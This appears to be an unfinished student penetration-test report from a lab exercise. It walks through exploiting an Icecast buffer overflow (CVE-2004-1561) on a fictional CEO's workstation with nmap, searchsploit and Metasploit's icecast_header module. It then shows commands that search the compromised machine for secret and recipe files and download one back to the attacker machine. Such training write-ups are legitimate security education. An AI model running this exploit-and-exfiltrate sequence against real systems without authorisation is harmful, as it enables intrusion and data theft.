 <div align="center">GoodSecurity Penetration Test Report

TamieBoychuk@GoodSecurity.com

29 March 2022



<div align="left">

**1.	High-Level Summary**

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The goal of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Hans’ computer to determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software, find a secret recipe file on Hans’ computer, and report the findings back to GoodCorp.
The internal penetration test found several alarming vulnerabilities on Hans’ computer: When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs with major vulnerabilities. The details of the attack are below.

  
**2.	Findings**

* Machine IP:
  
  - Machine’s IP address = `192.168.0.20`
  
* Hostname:

  - Actual name of the machine = `MSEDGEWIN10`

* Vulnerability Exploited:

  - The name of the script or Metasploit module used: `The exploit/windows/http/icecast_header` allows an attacker or threat actor to gain remote control of a victims system by exploiting a buffer overflow which overwrites the memory on the vicitms system using the "icecast" flaw.  The flaw allows for writing past the end of a pointer array when receiving information greater than 32 characters (headers).

* Vulnerability Explanation:

  -  If you use audio streaming services like `Spotify` then you've used `Icecast.` It is a streaming media server used by radio stations, online music streaming and other similar platforms that allow you to create list of your favorite music and listen to it anywhere at anytime.  The `Icecast Flaw` is used by attackers and or threat actors to inject malicious code into the `Icecast` overflow buffer.  The `Icecast` server has a maximum set of 32 characters in the client's HTTP request.  If the request is longer than 32 characters (aka headers) then the excess is sent to the stack overflow where it fills the buffers allocated for the overflow.  In this process of buffer overflow is something called an `Extended Instruction Pointer (EIP)` that holds the memory address of the next instruction to execute in the buffer overflow.  It is in the `EIP` that an attack is able to be executed.  Once the overflow fills the buffers allocated it overwrites the `EIP` address space.  If it overwrites with a new `return pointer` it can tell the CPU to go to an address which contains `instruction code` which will then be executed.  It is here where a malicious code or unwanted process can be executed by an attacker.
  
[Click Here For Full Extract On Information Above](https://www.giac.org/paper/gcih/687/remote-exploitation-icecast-201-server/106910)
  

**Severity:**
In your expert opinion, how severe is this vulnerability?
  
The severity of this attack according to CVE was scored at `7.5` highlighting that the compromise of confidentiality, integrity and availabitlity is considerable.
  
[Click Here For CVE Details](https://www.cvedetails.com/cve/CVE-2004-1561/)

## Proof of Concept:

After receiving written permission from GoodCorp Inc. a security test was ran against the CEO's workstation.  The following highlights the steps taken to complete the test and the vulnerabilities found during testing.
  
A service and version scan was ran first using nmap to determine the service and version running on the system.  The scan was specifically looking to see if a version of `Icecast` was running on the network.
  
* Command used: `nmap -sV 192.168.0.20`
  -  nmap = network scanner
  -  -sV = specification to run a service and version scan
  -  192.168.0.20 = target the scan is being ran against (The CEO's workstation IP address)
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Service%20and%20Version%20Scan.png)
  
Above you can see that the `Icecast` service was running on the machine as well as what version was running.  The next step was to search for any `Icecast` exploits on the machine.

* Command used: `searchsploit icecast`
  -  searchsploit = security assessment tool for searching offline repositories
  -  icecast = exploit/s being searched for
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Searchsploit%20Icecast.png)
  
Above you can see there are multiple `Icecast` exploits available. 
  
Next, penetration testing software called `Metasploit` was used to continue testing. The two images below demonstrate the ability to load and use `Metasploit` to find `Icecast` module/s to use against the target.
  
* Command To Start Metasploit:  `msfconsole`
* Command To Search For Module:  `search icecast`  

![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Find%20Icecast%20Module.png)
  
A more generic search focused on the word `cast` was also ran to compare results of the search (see below):
  
* Command To Search For Just 'cast': `search cast`

  -  Module Found In Both Searches = /exploit/windows/http/icecast_header
  
To load the module for exploit you can use the entire path of the module found or you can use the number in front of the module as we have done in the image below.
  
  -  Command To Use Entire Path Module = `use /exploit/windows/http/icecast_header` 
  -  Command Using Just Number = `use 23`
  
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Generic%20search%20for%20'cast'.png)
  
Before running the exloit the receiving host of the exploit needs to be set.
   -  Command To Set RHOST = `set RHOST 192.168.0.20`
      * The receiving host or RHOST is the CEO's IP Address
  
After setting the RHOST the exploit was run (see below).
  
   -  Command To Run The Icecast Exploit = `exploit`
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/exploit%20successful.png)
  
As can be seen above the exploit was successful and an `open session` was established with the target, the CEO's workstation.
  
The next part of the security test was to see if files that contain the strings `recipe` or `secretfile` could be found.
  
   -  Command To Search For `secret` Text File = search -f *secret*.txt
      * search = command to run a search
      * -f = indicates that the search is for a file
      * *secret*.txt = indicate to search all text files containing the word `secret` 
   
 
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/secretfile.txt%20search.png)
  
As can be seen above the command was successful in finding a file with `secretfile.txt` and revealed the path to the file.
  
   -  Command To Search For `recipe` Text File = search -f *recipe*.txt
      * search = command to run a search
      * -f = indicates that the search is for a file
      * *recipe*.txt = indicate to search all text files containing the word `recipe` 
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/recipe.txt%20search.png)
  
Again, the search was successful in finding a file containing the word `recipe` as well as the path to the file.
  
From root directory we changed into the directory where the `Drinks.recipe.txt` was found.

Once in the directory we read the contents of the file.
   -  Command To Open & Read File = cat `Drinks.recipe.txt` (see results below)
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/Drink%20Recipe.png)
  
Taking the security testing further we were able to exfiltrate the `Drinks.recipe.text` and download it from the CEO's workstation back to the attacker machine.

   -  Command To Exfiltrate & Download Recipe = `download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'
  
![TODO](https://github.com/Tamie13/Penetration-Testing-Week-2/blob/main/Unit%2017%20Illustrations/download%20recipe.png)
  
The file was successfully stolen from the CEO's computer as can be seen above.
  

There should be a separate finding for each vulnerability found.









3.	Recommendations

What recommendations would you give to GoodCorp?


